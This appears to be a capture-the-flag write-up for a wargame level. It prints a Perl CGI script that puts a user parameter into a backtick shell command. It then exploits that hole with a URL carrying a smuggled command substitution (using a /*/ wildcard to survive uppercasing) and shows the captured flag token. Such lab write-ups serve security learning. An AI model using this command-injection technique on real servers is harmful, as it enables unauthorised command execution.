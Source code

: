 ##### 1 - Analyze the file
``cat level12.pl``

>\#!/usr/bin/env perl
>\# localhost:4646
>use CGI qw{param};
>print "Content-type: text/html\n\n";
>
>sub t {
>  $nn = $_[1];
>  $xx = $_[0];
>  $xx =~ tr/a-z/A-Z/;
>  $xx =~ s/\s.*//;
>  @output = `egrep "^$xx" /tmp/xd 2>&1`;
>  foreach \$line (@output) {
>      ($f, $s) = split(/:/, $line);
>      if($s =~ $nn) {
>          return 1;
>      }
>  }
>  return 0;
>}
>
>sub n {
>  if($_[0] == 1) {
>      print("..");
>  } else {
>      print(".");
>  }
>}
>
>n(t(param("x"), param("y")));

We see that there's a server running on port 4646, who takes an unprotected argument **x**.
Program chech if a file with the same name (in uppercase) exists in /tmp/.

----

##### 2 - Making the script

Creating a script which launch getflag and send his result to all connected users.
``echo "getflag | wall" > /tmp/AAA``

Setting script as executable
``chmod +x /tmp/AAA``

----

##### 3 - Exploit the vulnerability

We use wildcard ``/*/`` because the script put every char in uppercase and the folder /TMP/ doesn't exists.
``http://10.11.249.58:4646/?x=`/*/AAA` ``
or
``http://10.11.249.58:4646/?x=`/*/aaa` ``

----

##### 4 - Getting the flag

>Broadcast Message from flag12@Snow
>        (somewhere) at 14:58 ...
>
>Check flag.Here is your token : **g1qKMiRpXf53AWhDaU7FEkczr**

